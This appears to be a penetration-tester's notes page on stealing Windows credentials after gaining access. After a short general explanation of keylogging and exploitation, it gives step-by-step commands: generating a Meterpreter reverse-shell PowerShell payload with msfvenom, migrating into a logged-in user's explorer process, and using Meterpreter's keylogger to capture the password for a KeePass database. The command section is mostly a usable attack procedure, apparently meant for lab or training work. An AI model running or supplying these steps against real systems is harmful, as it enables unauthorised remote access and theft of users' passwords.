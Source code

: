 --- ---

<h2>General</h2>

Users and User Behavior

Windows users have a variety of habits and actions when using the operating system. One important aspect of user behavior is the management of login information, known as credential management. This includes securely storing and managing usernames and passwords. However, malicious actors may use keylogging to steal login information. Keylogging is the act of recording keystrokes on a computer, often done to steal sensitive information such as login credentials. Another tactic used by malicious actors is exploitation, which takes advantage of vulnerabilities in software or systems to gain unauthorized access or control. It is important for Windows users to be aware of these issues and practice safe browsing and login habits, as well as keeping their systems updated to protect against exploitation.

---

<h2>Commands</h2>

Next step would be to look around to see if there is any useful information (Credential). Have a look at the user directories and see if there is some useful information in any of them.

- Example
	Your enumeration efforts lead you to a .kdbx file. A quick Google should confirm our suspicion that this file is indeed very valuable! We can use Meterpreter's download command to recover this file.
	
	This file seems to be a credential database. The issue, however, is that the database is encrypted with a password. We could attempt to crack the password, but anyone who uses a credential database usually has the savvy to make sure the initial password is secure. We may have more success seeing how the user interacts with this database.

Meterpreter has a built-in keylogger. This will be useful for extracting the user's keystrokes. However, we can't just start this keylogger and hope for the best since our shell is currently running in the SYSTEM context. SYSTEM won't be typing any keystrokes, so this won't help us. To capture the correct user's credentials, we will need to ensure that our shell is running in the context of that user.

Create Meterpreter payload
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1
```

Use [[• File Sharing (Windows - Linux)]] to import the payload

Get the reverse shell

Check if the users have any running processes on this machine
```
meterpreter\>ps | grep "explorer"
```

Migrate the process to the active process
```
meterpreter\>migrate NUMBER
```

Confirm that we are now running in the context of our target
```
meterpreter\>getuid
```

Start our keylogger
```
meterpreter\>keyscan_start
```

Wait...

Dump captured keystrokes
```
meterpreter\>keyscan_dump
```